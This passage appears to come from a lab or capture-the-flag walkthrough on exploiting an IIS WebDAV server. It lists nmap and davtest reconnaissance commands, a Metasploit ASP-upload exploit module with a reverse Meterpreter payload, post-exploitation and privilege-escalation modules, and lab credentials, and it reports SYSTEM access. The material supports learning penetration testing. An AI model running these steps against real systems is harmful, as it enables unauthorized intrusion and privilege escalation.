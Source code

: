 ### Pre-Metasploit Reconnaissance
```bash
# Discover WebDAV with nmap
nmap -p 80 --script http-enum target
nmap -p 80 --script http-webdav-scan target

# Test capabilities with davtest
davtest -auth user:pass -url http://target/webdav

# Then exploit with Metasploit
use exploit/windows/iis/iis_webdav_upload_asp
```

### Integration with Post-Exploitation Modules
```bash
# After successful exploitation
use post/windows/gather/enum_system
use post/windows/escalate/getsystem
use post/multi/recon/local_exploit_suggester
```

### Database Integration
```bash
# Store results in Metasploit database
db_connect
workspace -a webdav_assessment
hosts -a target_ip
services -a -p 80 -s http target_ip
```

---

## 📝 Documentation and Reporting

### Key Information to Document

#### Technical Details
- **Target Information:**
  - Server: Microsoft IIS httpd 10.0
  - WebDAV Path: /webdav/
  - Authentication: Basic authentication required
  - Credentials Used: bob:password_123321

- **Exploit Configuration:**
  - Module: exploit/windows/iis/iis_webdav_upload_asp
  - Payload: windows/meterpreter/reverse_tcp (default)
  - Upload Method: txt to asp file rename technique
  - Session: Meterpreter session 1 established

#### Exploitation Results
- **Upload Success:** 609,542 bytes payload uploaded successfully
- **Execution Confirmed:** ASP payload executed and callback received  
- **Access Level:** SYSTEM level privileges achieved
- **Post-Exploitation:** Full file system access, flag retrieved
- **Persistence:** Meterpreter session allows continued access
